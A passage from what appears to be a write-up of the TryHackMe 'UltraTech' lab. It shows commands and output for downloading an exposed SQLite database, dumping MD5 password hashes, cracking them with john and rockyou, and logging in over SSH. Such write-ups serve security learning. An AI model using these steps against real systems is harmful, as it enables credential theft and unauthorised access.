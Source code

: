 standard port is `8000`

```shell
$ wget http://ultratech.thm:8000/utech.db.sqlite
```

the content looks like this

```shell
$ sqlite3 utech.db.sqlite
SQLite version 3.38.2 2022-03-26 13:51:10
Enter ".help" for usage hints.
sqlite> .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users (
            login Varchar,
            password Varchar,
            type Int
        );
INSERT INTO users VALUES('admin','0d0ea5111e3c1def594c1684e3b9be84',0);
INSERT INTO users VALUES('r00t','f357a0c52799563c7c7b76c1e7543a32',0);
COMMIT;
```

```shell
'admin','0d0ea5111e3c1def594c1684e3b9be84'
'r00t','f357a0c52799563c7c7b76c1e7543a32'
```

john got me this result

```shell
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-md5 pw_hashes.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=5
Press 'q' or Ctrl-C to abort, almost any other key for status
n100906          (?)
mrsheafy         (?)

```

```shell
admin - mrsheafy
r00t - n100906
```

login with `r00t` credentials we got ssh access.

```shell
$ ssh r00t@ultratech.thm
The authenticity of host 'ultratech.thm (10.10.201.122)' can't be established.
ED25519 key fingerprint is SHA256:g5I2Aq/2um35QmYfRxNGnjl3zf9FNXKPpEHxMLlWXMU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'ultratech.thm' (ED25519) to the list of known hosts.
r00t@ultratech.thm's password:
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Nov 15 21:47:40 UTC 2022

  System load:  0.0                Processes:           107
  Usage of /:   24.5% of 19.56GB   Users logged in:     0
  Memory usage: 42%                IP address for eth0: 10.10.201.122
  Swap usage:   0%
```